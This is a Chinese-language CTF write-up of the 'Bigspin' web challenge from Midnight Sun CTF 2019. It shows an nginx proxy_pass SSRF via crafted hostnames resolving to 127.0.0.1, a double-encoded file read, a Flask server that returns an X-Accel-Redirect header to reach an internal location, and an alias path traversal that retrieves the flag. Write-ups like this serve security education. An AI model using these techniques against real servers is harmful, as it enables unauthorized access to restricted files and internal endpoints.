 # Bigspin

- [English Version](https://balsn.tw/ctf_writeup/20190406-midnightsunctf/#bigspin)

- 題目拿到有四個連結: `/admin`, `/uberadmin`, `/user`, `/pleb`
    - `/admin`噴404
    - `/pleb`正常顯示
    - 其他噴403 
- 把`/pleb`內容拿去google，可以發現是`example.com`的內容
- Fuzzing一波可以發現`/pleb`可能背後做了某種proxy:
    - `/pleb./` => 正常
    - `/ple%62/` => 正常
    - `/pleb` => 404
    - `/pleb:` => 500
    - `/pleb../` => 502
    - `/pleba/` => 502
    - ...
- 猜測背後可能是做類似以下的Proxy rule:
    - `/pleb[INPUT]` => `example.com[INPUT]`
    - 用DNS Log測試: `/pleb.kaibro.tw`
    - 會收到`example.com.kaibro.tw`的Request，證實猜測是對的
- 接著設定`example.com.gg.kaibro.tw`指向`127.0.0.1`
    - 訪問`/pleb.gg.kaibro.tw/user/`就可以繞過限制惹
    - `/user/`底下有`nginx.c%C3%B6nf%20`
    - 用Double encoding `/pleb.gg.kaibro.tw/user/nginx.c%25C3%25B6nf%2520`可以把這個檔案讀出來:

```
worker_processes 1;
user nobody nobody;
error_log /dev/stdout;
pid /tmp/nginx.pid;
events {
  worker_connections 1024;
}

http {

    # Set an array of temp and cache files options that otherwise defaults to
    # restricted locations accessible only to root.

    client_body_temp_path /tmp/client_body;
    fastcgi_temp_path /tmp/fastcgi_temp;
    proxy_temp_path /tmp/proxy_temp;
    scgi_temp_path /tmp/scgi_temp;
    uwsgi_temp_path /tmp/uwsgi_temp;
    resolver 8.8.8.8 ipv6=off;

    server {
        listen 80;

        location / {
            root /var/www/html/public;
            try_files $uri $uri/index.html $uri/ =404;
        }

        location /user {
            allow 127.0.0.1;
            deny all;
            autoindex on;
            root /var/www/html/;
        }

        location /admin {
            internal;
            autoindex on;
            alias /var/www/html/admin/;
        }

        location /uberadmin {
            allow 0.13.3.7;
            deny all;
            autoindex on;
            alias /var/www/html/uberadmin/;
        }

        location ~ /pleb([/a-zA-Z0-9.:%]+) {
            proxy_pass   http://example.com$1;
        }

        access_log /dev/stdout;
        error_log /dev/stdout;
    }

}
```

- 可以發現`/admin`是`internal;`，所以直接訪問會噴404
- 而`uberadmin`限制IP為`0.13.3.7`，基本上也很難直接繞過
- 最後想到Nginx的`X-Accel-Redirect` header可以用來繞過`internal`
- 跑一個Server起來給`proxy_pass`送這個header，就能繞過`/admin`限制了:

```python
#!/usr/bin/env python3
from flask import Flask, current_app, request, make_response

app = Flask(__name__)

@app.route('/')
def index():
    response = make_response()
    response.headers['X-Accel-Redirect'] = '/admin/flag.txt'
    return response

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000, threaded=True)
```

- `/admin/flag.txt`: `hmmm, should admins really get flags? seems like an uberadmin thing to me`
    - 看來必須讀`/uberadmin`
- 可以發現因為location和alias不一致(一個有結尾的`/`，一個沒有)的關係，存在Path Traversal的問題
    - `/admin../uberadmin/flag.txt`
    - `midnight{y0u_sp1n_m3_r1ght_r0und_b@by}`

